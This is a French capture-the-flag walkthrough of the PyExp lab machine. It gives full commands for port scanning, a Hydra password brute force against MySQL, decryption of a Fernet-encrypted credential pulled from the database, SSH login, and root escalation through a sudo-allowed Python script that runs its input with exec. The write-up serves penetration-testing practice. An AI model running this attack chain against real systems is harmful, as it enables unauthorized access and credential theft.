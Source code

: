 # PyExp

    sudo nmap -p- -sV 192.168.204.118
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.118 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.118
Scans classiques.

Il n'y a que les ports 3306 (MySQL) et 1337 (SSH) qui sont ouverts. Cela laisse très peu de possibilités. J'ai tenté les credentials par défaut pour MySQL sans succès, et j'ai ensuite lancé Hydra sur l'utilisateur par défaut :

    hydra  -vV  -f  -l root -P  ~/rockyou.txt 192.168.204.118 mysql
    
On obtient un mot de passe, il n'y a plus qu'à l'utiliser pour se connecter à la base de données et la fouiller : 

    mysql  -u root -h 192.168.204.118 -P 3306
    MariaDB [(none)]> SHOW DATABASES;
    MariaDB [(none)]> USE data;
    MariaDB [(none)]> SHOW TABLES;
    MariaDB [data]> SELECT * FROM fernet;

    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | cred | keyy |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    1 row in set (0.051 sec)

Le nom de la table est très explicite, Fernet est un module Python de chiffrement et on peut facilement utiliser des sites comme https://asecuritysite.com/tokens/ferdecode pour le déchiffrer.

On essaye les credentials obtenus sur le SSH et cela fonctionne : 

    ssh  -l lucy 192.168.204.118 -p 1337
    cat local.txt

### Élévation de privilèges : 

    sudo -l		
> (root) NOPASSWD: /usr/bin/python2 /opt/exp.py

    cat /opt/exp.py
    sudo python2 /opt/exp.py
> uinput = raw_input('how are you?')  
> exec(uinput)

Ce script ne filtre pas du tout les données entrées et exécutera n'importe quelle commande, c'est une injection de commande simplissime. J'ai opté pour la ligne que j'utilise habituellement pour fiabiliser les shells pourris : 
<br /> **"import pty ; pty.spawn('/bin/bash')"**

    ls /root
    cat /root/proof.txt
